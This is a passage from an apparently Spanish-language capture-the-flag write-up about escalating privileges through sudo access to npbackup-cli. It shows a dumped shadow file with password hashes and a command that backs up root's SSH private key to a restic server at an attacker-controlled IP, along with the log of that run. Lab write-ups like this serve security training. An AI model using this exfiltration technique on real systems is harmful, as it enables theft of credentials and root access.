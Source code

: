 ```
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:20010:0:99999:7:::
sshd:*:20010:0:99999:7:::
systemd-coredump:!!:20016::::::
marco:$6$i5xRI7UVqeBITIby$NQKHXVvAWz7Vl3QkEwgxw0ItF9Lwen4gGCBi.YYiDQTdkgcPABaqfmBzheAM/9JA/9J7szqDzPaIDbkNqc.0V.:20022:0:99999:7:::
lxd:!:20016::::::
app:$6$5iH3Zik78QR8t9Se$bgRAig/YjbMzwOTFME629sLrrTn2avVD9pLFwz0X2zBTz0LYfNIEuw6w5s53NNu2K7IeEJK4D6j9PB6SR.UvC0:20022:0:99999:7:::
mysql:!:20026:0:99999:7:::
_laurel:!:20256::::::
```

Vemos que efectivamente ha funcionado, por lo que vamos a probar a obtener la clave `PEM` del usuario `root` a ver si existiera, haciendo el mismo proceso anterior.

```shell
sudo /usr/local/bin/npbackup-cli -c /home/marco/npbackup.conf --raw "backup -r 'rest:http://<IP>:6666/Pwn3d' --password-file /tmp/restic-password /root/.ssh/id_rsa"
```

Info:

```
2025-09-19 16:39:24,343 :: INFO :: npbackup 3.0.1-linux-UnknownBuildType-x64-legacy-public-3.8-i 2025032101 - Copyright (C) 2022-2025 NetInvent running as root
2025-09-19 16:39:24,375 :: INFO :: Loaded config 4E3B3BFD in /home/marco/npbackup.conf
2025-09-19 16:39:24,386 :: INFO :: Running raw command: backup -r 'rest:http://10.10.14.85:6666/Pwn3d' --password-file /tmp/restic-password /root/.ssh/id_rsa
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            2 new,     0 changed,     0 unmodified
Added to the repository: 3.570 KiB (3.470 KiB stored)

processed 1 files, 2.541 KiB in 0:00
snapshot f17a625d saved
2025-09-19 16:39:27,431 :: INFO :: Successfully run raw command:
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            2 new,     0 changed,     0 unmodified
Added to the repository: 3.570 KiB (3.470 KiB stored)

processed 1 files, 2.541 KiB in 0:00
snapshot f17a625d saved

2025-09-19 16:39:27,433 :: INFO :: Runner took 3.047177 seconds for raw
2025-09-19 16:39:27,433 :: INFO :: Operation finished
2025-09-19 16:39:27,439 :: INFO :: ExecTime = 0:00:03.098817, finished, state is: success.
```
